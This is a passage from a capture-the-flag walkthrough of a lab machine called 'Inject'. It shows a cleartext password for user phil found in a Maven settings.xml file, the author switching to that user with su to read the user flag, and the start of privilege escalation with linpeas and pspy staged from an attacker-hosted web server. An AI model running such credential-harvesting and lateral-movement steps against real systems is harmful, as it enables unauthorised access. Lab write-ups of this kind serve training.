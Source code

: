 Enumeration of the filesystem reveals the password for the user phil in the
/home/frank/.m2/settings.xml Maven configuration file.

```bash
frank@inject:~$ cat /home/frank/.m2/settings.xml

<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

That password didn’t work for SSH as phil, but it does work to `su` as phil:

```bash
frank@inject:~$ su - phil

phil@inject:~$ pwd
/home/phil

phil@inject:~$ ls -alh
total 24K
drwxr-xr-x 3 phil phil 4.0K Feb  1 18:38 .
drwxr-xr-x 4 root root 4.0K Feb  1 18:38 ..
lrwxrwxrwx 1 root root    9 Feb  1 07:40 .bash_history -> /dev/null
-rw-r--r-- 1 phil phil 3.7K Feb 25  2020 .bashrc
drwx------ 2 phil phil 4.0K Feb  1 18:38 .cache
-rw-r--r-- 1 phil phil  807 Feb 25  2020 .profile
-rw-r----- 1 root phil   33 Jul  6 18:42 user.txt
```

Now I can read the `user.txt` flag.

## I am Root

Running my good old trusty `[linpeas.sh](http://linpeas.sh)` didn’t provide any useful information. I also tried manual
enumeration but had no luck there either. So I decided to give [pspy](https://github.com/DominicBreuker/pspy) a try. I downloaded the 64bit binary from GitHub, added it into the folder being hosted by my python webserver. And then proceeded download the binary on to the target machine.
